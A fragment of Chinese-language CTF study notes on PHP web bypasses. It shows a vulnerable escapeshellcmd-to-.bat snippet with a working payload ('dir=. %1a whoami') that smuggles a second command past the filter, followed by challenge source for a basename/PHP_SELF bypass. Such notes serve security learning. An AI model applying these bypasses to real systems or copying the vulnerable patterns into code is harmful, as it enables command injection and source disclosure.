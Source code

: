 ### 绕过 escapeshellcmd

```php
<?php
    $command = 'dir '.$_POST['dir'];
    $escaped_command = escapeshellcmd($command);
    var_dump($escaped_command);
    file_put_contents('out.bat',$escaped_command);
    system('out.bat');
?>
```

执行.bat 文件的时候，利用%1a，可以绕过过滤执行命令。

payload

dir=. %1a whoami

### basename 绕过 /PHP_SELF/

鹤城杯 2021 easyp
[BUUCTF 之[Zer0pts2020]Can you guess it? basename 函数绕过](https://blog.csdn.net/weixin_44632787/article/details/118724480)

题目

```php
<?php
include 'utils.php';

if (isset($_POST['guess'])) {
    $guess = (string) $_POST['guess'];
    if ($guess === $secret) {
        $message = 'Congratulations! The flag is: ' . $flag;
    } else {
        $message = 'Wrong. Try Again';
    }
}

if (preg_match('/utils\.php\/*$/i', $_SERVER['PHP_SELF'])) {
    exit("hacker :)");
}

if (preg_match('/show_source/', $_SERVER['REQUEST_URI'])){
    exit("hacker :)");
}

if (isset($_GET['show_source'])) {
    highlight_file(basename($_SERVER['PHP_SELF']));
    exit();
}else{
    show_source(__FILE__);
}
?>
```

